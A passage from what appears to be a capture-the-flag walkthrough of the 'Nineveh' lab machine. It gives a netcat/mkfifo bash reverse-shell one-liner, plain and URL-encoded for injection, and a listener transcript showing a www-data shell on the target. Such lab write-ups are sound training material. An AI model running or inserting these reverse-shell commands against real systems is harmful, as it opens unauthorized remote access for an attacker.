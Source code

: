 ![](../assets/Pasted%20image%2020250611130602.png)

## Initial Access

So if we put a bash reverse shell.

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.17 443 >/tmp/f

# url encoded
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.17%20443%20%3E%2Ftmp%2Ff
```


```shell
$ sudo rlwrap nc -lnvp 443    
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.43] 44224
bash: cannot set terminal process group (1401): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
```
